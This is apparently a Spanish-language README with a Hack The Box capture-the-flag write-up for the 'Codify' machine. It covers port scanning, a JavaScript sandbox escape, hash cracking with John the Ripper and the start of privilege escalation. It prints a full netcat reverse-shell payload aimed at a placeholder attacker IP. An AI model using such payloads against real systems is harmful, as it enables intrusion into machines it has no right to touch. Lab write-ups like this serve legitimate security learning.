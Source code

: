 # Solución para "Codify" - Hack The Box

Este repositorio contiene una detallada guía paso a paso sobre cómo resolví la máquina "Codify" en Hack The Box. Mi objetivo es proporcionar tanto a los entusiastas de la ciberseguridad como a los profesionales, una referencia útil y educativa que puedan seguir para entender y replicar el proceso de resolución. Cualquier aportación, corrección o protip se agradece.

## Contenido

- **Análisis Inicial**: Una descripción completa del análisis inicial que realicé para identificar los vectores de ataque posibles en "Codify".
- **Enumeración**: Detalles sobre las herramientas y técnicas que utilicé para la enumeración de servicios, puertos y vulnerabilidades.
- **Explotación**: Un paso a paso de cómo exploté las vulnerabilidades encontradas para ganar acceso inicial al sistema.
- **Escalada de Privilegios**: Explicación de cómo escalé privilegios para obtener un acceso más profundo al sistema, incluyendo cualquier técnica y herramienta utilizada.
- **Post-Explotación**: Una visión general de las acciones realizadas después de obtener el acceso deseado, como la recolección de banderas y la extracción de datos sensibles.
- **Conclusión y Aprendizaje**: Reflexiones sobre el desafío, qué aprendí durante el proceso y consejos para quienes intenten resolver "Codify".
- **Recursos y Herramientas**: Una lista de todas las herramientas, scripts y recursos externos que me fueron útiles durante la resolución de la máquina.

## Objetivo Educativo

El propósito principal de este repositorio es educativo. Busco compartir mi enfoque y las lecciones aprendidas con la comunidad para que otros puedan aprender de la experiencia y, potencialmente, aplicar estos conocimientos en sus propios desafíos de pentesting y ciberseguridad.

## Análisis Inicial y Enumeración

El primer paso en cualquier desafío de CTF (Capture The Flag) es comprender el terreno. Para ello, arranqué la máquina "Codify" en Hack The Box y utilicé `nmap`, una herramienta esencial en el arsenal de cualquier entusiasta de la seguridad, para realizar un escaneo de los puertos. El escaneo reveló tres puertos abiertos: 22 (SSH), 8080 y 3000.
![NMAP](./img/Nmap.PNG)

El puerto 8080 generalmente aloja aplicaciones web, pero en este caso, intentar acceder resultó en una redirección a un callejón sin salida. Los desarrolladores a menudo utilizan el puerto 3000 para pruebas locales, lo que me hizo pensar que podría contener una pista crucial. Al visitar este puerto en mi navegador, me encontré con una página web que presentaba un entorno sandbox para ejecutar código Javascript

## Explotación del Entorno Sandbox

La página web en el puerto 3000 era un rompecabezas en sí misma, dividida en varias secciones incluyendo 'About Us', 'Editor', 'Limitations', y una página de bienvenida. La sección 'Limitations' era particularmente interesante, ya que detallaba las restricciones impuestas a la ejecución del código, excluyendo explícitamente módulos potencialmente peligrosos como `fs` y `child_process`. Estas restricciones sugieren una protección consciente contra ataques maliciosos, pero también señalan hacia las vulnerabilidades que el creador consideró más críticas.

La verdadera mina de oro estaba en 'About Us', donde se mencionaba la librería usada para sandboxing. Una búsqueda en el repositorio de GitHub de la librería reveló varias vulnerabilidades documentadas. Probé varias hasta encontrar una que permitiera ejecutar código fuera del sandbox, utilizando [Gist de GitHub](https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac).

## Establecimiento de un Shell Inverso

Ahora que estaba fuera del sandbox, el siguiente paso lógico era establecer un shell inverso. Este proceso, aunque familiar, requirió paciencia y precisión para adaptar el ataque al entorno específico de "Codify". Tras varios intentos y ajustes de mi payload, `netcat` me brindó ese preciado prompt de shell, marcando la primera victoria significativa en esta batalla.

Payload: mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc IP_ATACANTE PUERTO_ATACANTE > /tmp/f; rm /tmp/f


## Escalada de Privilegios: El Desafío Continúa

Con acceso al sistema, el siguiente objetivo era escalar privilegios. Este paso se convirtió en el más desafiante. Navegando por los directorios del sistema, encontré un archivo que parecía contener una contraseña, oculta en el formato de un hash bcrypt. La naturaleza del hash sugería una fortaleza significativa, pero también representaba una pista crítica hacia la obtención de mayores privilegios en la máquina.
Utilizando la herramienta John The Ripper y la wordlist rockyou, consigo crackear el hash: 
echo '$2a$12$SOn8Pf6z8fO/***********//P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hashJoshua.txt
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hashJoshua.txt 

Pruebo a iniciar sesión como el usuario Joshua utilizando la contraseña del hash, y consigo acceso al usuario.
En su directorio home se encuentra la user flag, primer objetivo cumplido, pero ahora debo intentar escalar privilegios hacia el usuario root.

Utilizando el comando sudo -l se puede observar que el usuario joshua puede ejecutar mysql-backup.sh como root. Lo que nos da un punto de apoyo para poder escalar privilegios.

